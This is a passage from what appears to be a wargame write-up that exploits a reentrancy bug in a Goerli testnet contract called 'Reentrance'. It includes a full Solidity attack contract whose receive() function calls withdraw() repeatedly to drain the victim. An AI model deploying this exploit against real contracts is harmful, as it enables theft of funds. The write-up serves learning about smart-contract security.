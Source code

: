This function deposits the Ether to the address supplied in the function arguments. We will need to call this so that we are able to validate the `if` condition in the `withdraw()` function - `if(balances[msg.sender] >= _amount)`.

# AntiSec

To exploit this contract, I will use `RemixIDE` to write another malicious contract which will have one `fallback()` function and one `attack()` function.

`attack()` function will first deposit some ether to the victim contract to bypass the `balances[msg.sender] >= _amount` check using victim contract’s `donate()` function and after that `attack()` will again call the victim contract’s `withdraw()` function with the amount that has been deposited in the previous call.

When the victim contract will send the deposited Ether to our malicious contract, it will automatically invoked the fallback `receive()` function which will recursively call the victim’s `withdraw()` function again until the victim’s contract balance is 0.

Before I attack the contract, a quick search on the goerli etherscan to check the balance of this `Reentrance` contract tells us that it has `0.001` ETH. This is the amount we will send to the victim contract and after the attack our malicious contract should have `0.002 ETH` as balance.

![Screenshot 2023-02-20 at 12.52.33 AM.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a50b7724-33fb-4e5a-862f-748e8c933a89/Screenshot_2023-02-20_at_12.52.33_AM.png)

Here’s the Attack Contract - 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

interface IReentrance {
    function donate(address) external payable;
    function withdraw(uint) external;
}

contract Attack {
    IReentrance reentrance = IReentrance(0x0cd998bf24F8eC1bDc2aDCF4AE3DF88dCc1a91a0);

    constructor() public {}

    function attack() external payable {
        reentrance.donate{value: 0.001 ether}(address(this));
        reentrance.withdraw(0.001 ether);
    }

    receive() external payable {
        uint amount = min(0.001 ether, address(reentrance).balance);
        if (amount > 0) {
            reentrance.withdraw(0.001 ether);
        }
    }

    function min(uint x, uint y) private pure returns (uint) {
        return x <= y ? x : y;
    }
}
```
